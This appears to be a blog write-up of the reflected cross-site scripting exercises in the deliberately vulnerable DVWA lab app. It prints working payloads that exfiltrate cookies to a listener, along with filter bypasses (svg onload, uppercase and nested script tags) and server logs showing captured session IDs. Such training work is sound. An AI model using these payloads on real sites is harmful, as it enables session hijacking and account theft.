 ```yaml
---
title: DVWA - XSS (Reflected)
date: 2023-12-17
categories: [CTF, Web Exploitation]
tags: [dvwa, xss, xss-reflected, cross-site-scripting, javascript]
img_path: /assets/dvwa/xss_reflected
published: true
---
```


## Information

- [How to install dvwa on Kali](https://www.kali.org/tools/dvwa/).
- [Official GitHub repository](https://github.com/digininja/DVWA).

> The DVWA server itself contains instructions about almost everything.

_**Damn Vulnerable Web Application (DVWA)** is a PHP/MySQL web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and to aid both students & teachers to learn about web application security in a controlled class room environment._

_The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface._

![](dvwa_home.png){: width='70%' }

The DVWA server has **4 different security levels** which can be set as seen below:

![](security_levels.png){: width='70%' }

- **Low**: This security level is completely vulnerable and has no security measures at all. It's use is to be as an example of how web application vulnerabilities manifest through bad coding practices and to serve as a platform to teach or learn basic exploitation techniques.
- **Medium**: This setting is mainly to give an example to the user of bad security practices, where the developer has tried but failed to secure an application. It also acts as a challenge to users to refine their exploitation techniques.
- **High**: This option is an extension to the medium difficulty, with a mixture of harder or alternative bad practices to attempt to secure the code. The vulnerability may not allow the same extent of the exploitation, similar in various Capture The Flags (CTFs) competitions.
- **Impossible**: This level should be secure against all vulnerabilities. It is used to compare the vulnerable source code to the secure source code.

## Cross-Site Scripting (XSS) (Reflected)

XSS attacks are a type of injection problem, in which malicious scripts are injected into the otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application using input from a user in the output, without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user's browser has no way to know that the script should not be trusted, and will execute the JavaScript. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by your browser and used with that site. These scripts can even rewrite the content of the HTML page.

Because its a **reflected XSS**, the malicious code is not stored in the remote web application, so **requires some social engineering** (such as a link via email/chat).

**Objective**: One way or another, steal the cookie of a logged in user.

## Security: Low
> _Low level will not check the requested input, before including it to be used in the output text ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_low_source.php))._

1. Putting our name in the input form, we notice the the parameter `name` appears on the address bar:

    ![](home_kuv4z.png)

2. Instead of our name, we can try a simple payload to see it will work:

    ![](low_test.png)

3. We can check if a XSS vulnerability exists by passing a very simple payload:

    ```javascript
    <script>alert(document.cookie)</script>
    ```

    ![](low_test.png)

4. Our goal is to get our target's cookie value, so we will have to use a payload that grabs his cookie but also send it to us. Let's start by launch a Python3 HTTP server:

    ```shell
    $ python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    ```

5. If we pass the exact same payload as the one we used for the [XSS (DOM)](https://cspanias.github.io/posts/DVWA-XSS-(DOM)/#security-low) section, it won't work:

    ```javascript
    <script>window.location='http://127.0.0.1:1337/?cookie='+document.cookie</script>
    ```

    ![](low_payload_fail.png)

6. If we view the page's source, we will notice that the `+` symbol disappears:

    ![](low_page_source.png)

7. We can try to [URL-encode](https://www.w3schools.com/tags/ref_urlencode.ASP) the `+` symbol and try again:

    ![](url_enc.png)

    ```javascript
    <script>window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie</script>
    ```
    ![](low_payload.png)

    ```shell
    $ sudo python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    127.0.0.1 - - [17/Dec/2023 17:17:49] "GET /?cookie=PHPSESSID=fejtgct45j1cmkcedvieacnai5;%20security=low HTTP/1.1" 200 -
    ```

## Security: Medium
> _The developer has tried to add a simple pattern matching to remove any references to `<script>`, to disable any JavaScript ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_medium_source.php))._

1. First, let's get rid of the PHP error we have by changing `${name}` to `{$name}` in `/usr/share/dvwa/vulnerabilities/xss_r/source/medium.php` and refreshing the page:

    ![](php_error.png)

    ![](medium_php.png)

    ![](medium_php_fixed.png)

2. If we take a look at the page's source code, we will see that the `<script>` tag gets removed, so this time the same payload won't work. There is a handy [XSS Payload List](https://github.com/1N3/IntruderPayloads/blob/master/FuzzLists/xss_payloads_quick.txt) on GitHub, so we can choose any other form of payload which does not include the blacklisted tag. Let's try one:

    ![](medium_source_code.png)

    ```javascript
    </select><svg/onload=alert(1)>
    ```

    ![](medium_test.png)

3. We can use the same process as before to steal our target's cookie:

    ```javascript
    <svg/onload=window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie>
    ```

    ![](medium_payload_cookie.png)

    ```shell
    $ python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    127.0.0.1 - - [17/Dec/2023 17:37:35] "GET /?cookie=security=medium;%20PHPSESSID=gmij2886a88afu2o2l0fkt1943 HTTP/1.1" 200 -
    ```

4. The developer's code is case sensitive so it is only checking for an exact match of `<script>`. So, we could also use the following payload to bypass this:

    ```javascript
    <SCRIPT>window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie</script>
    ```

5. We could also apply the same concept as we did on the [LFI](https://cspanias.github.io/posts/DVWA-File-Inclusion/#local-file-inclusion-1) section, and pass the following payload:

    ```javascript
    <scr<script>ipt>window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie</script>
    ```

## Security: High
> _The developer now believes they can disable all JavaScript by removing the pattern `<s*c*r*i*p*t` ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_high_source.php))._

> You can fix the error as above.

1. This level can be attacked the same way as the previous one as the developer just changed the blacklisted pattern to `<s*c*r*i*p*t`:

    ```javascript
    <svg/onload=window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie>
    ```

    ![](high_payload.png)

    ```shell
    $ sudo python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    127.0.0.1 - - [17/Dec/2023 17:42:59] "GET /?cookie=security=high;%20PHPSESSID=gmij2886a88afu2o2l0fkt1943 HTTP/1.1" 200 -
    ```

## Security: Impossible
> _Using inbuilt PHP functions, such as [`htmlspecialchars()`](https://secure.php.net/manual/en/function.htmlspecialchars.php), its possible to escape any values which would alter the behaviour of the input ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_impossible_source.php))._

## Resources

- Cryptocat's [video walkthrough](https://www.youtube.com/watch?v=qHHADT52L5s).
- OWASP's [Cross Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/).
- GitHub's [XSS Payload List](https://github.com/1N3/IntruderPayloads/blob/master/FuzzLists/xss_payloads_quick.txt).